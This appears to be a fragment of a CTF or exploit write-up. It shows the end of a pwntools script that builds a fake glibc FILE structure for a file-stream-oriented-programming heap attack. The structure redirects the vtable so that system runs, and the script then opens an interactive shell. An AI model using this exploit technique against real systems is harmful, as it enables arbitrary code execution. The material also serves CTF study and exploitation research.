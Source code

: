 ```py
fs += p8(0)                         # _vtable_offset
fs += b'\n'                         # _shortbuf
fs += p32(0)                        # padding 
fs += p64(libc + 0x2049d8)          # _lock
fs += p64(0)                        # _offset
fs += p64(0)                        # _codecvt
fs += p64(fp - 0x10)                # _wide_data
fs += p64(0)                        # _freeres_list
fs += p64(0)                        # _freeres_buf
fs += p64(0)                        #__pad5
fs += p32(0xffffffff)               # _mode
fs += (p32(0x0) + p64(system) + p64(fp + 0x60)).ljust(20,b"\x00") # _unused2
fs += p64(wfileoverflow - 0x38)     # vtable

malloc("FSOPLEAK",0x338,fs,norecv=1)

p.interactive()

```


> [!quote]-
> Anyways New phrack zine dropped go read it byee : D